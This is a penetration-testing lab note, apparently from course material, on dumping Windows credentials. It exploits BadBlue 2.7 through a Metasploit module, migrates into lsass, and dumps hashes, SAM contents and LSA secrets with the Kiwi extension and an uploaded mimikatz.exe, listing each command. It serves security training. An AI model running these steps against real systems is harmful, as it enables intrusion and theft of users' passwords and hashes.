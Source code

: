 # Dumping Hashes With Mimikatz

## Practice Demo

## Mimikatz

* Mimikatz is a Windows post-exploitation tool written by Benjamin Delply (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
* The SAM (Security Accounts anager) database, is a database file on a Windows systems that stores hashed user passwords.
* Mimikatz can be used to extract hashes from the <mark style="color:red;">lsass.exe</mark> process memmory where hashes are cached.
* We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension <mark style="color:red;">Kiwi</mark>.

<mark style="color:purple;">NOTE:</mark> Mimikatz will require elevated privileges in order to run correctly.

## Practical Demo

Enumerate the target

In this case the target is running <mark style="color:red;">BadBlue 2.7</mark> on port 80

### MSF Module

* <mark style="color:yellow;">exploit/windows/http/badblue\_passthru</mark>

We need to set the <mark style="color:red;">TARGET</mark>

Set RHOSTS and payload options

We now have 32 bit meterpreter session as an Administrator

Migrate to the "<mark style="color:red;">lsass</mark>" process to get NT AUTHORITY\SYSTEM privileges:

* <mark style="color:yellow;">pgrep lsass:</mark> Searches for LSASS process
* <mark style="color:yellow;">migrate PID</mark>

#### Load Kiwi extension:

* <mark style="color:yellow;">load kiwi</mark>

#### Help command:

* <mark style="color:yellow;">?</mark>

#### Dump all credentials:

* <mark style="color:yellow;">creds\_all</mark>

#### Dump Contents of SAM Database:

* <mark style="color:yellow;">lsa\_dump\_sam</mark>

Dump LSA Secrets

* <mark style="color:yellow;">lsa\_dump\_secrets</mark>

## Using Mimikatz executable

Navigate to the <mark style="color:red;">Temp</mark> directory in the target

Upload the Mimikatz executable:

* <mark style="color:yellow;">upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe</mark>

#### Start mimikatz:

* <mark style="color:yellow;">.\mimikatz.exe</mark>

#### Check if you have appropriate privileges:

* <mark style="color:yellow;">privilege::debug</mark>

#### Dump logon passwords

* <mark style="color:yellow;">sekurlsa::logonpasswords</mark>

#### Dump SAM database

* <mark style="color:yellow;">lsadump::sam</mark>

#### Dump lsa secrets:

* <mark style="color:yellow;">lsadump::secrets</mark>

If windows is configured to store <mark style="color:red;">logonpasswords</mark> in memory in cleartext, we can dump them:

* <mark style="color:yellow;">sekurlsa::passwords</mark>
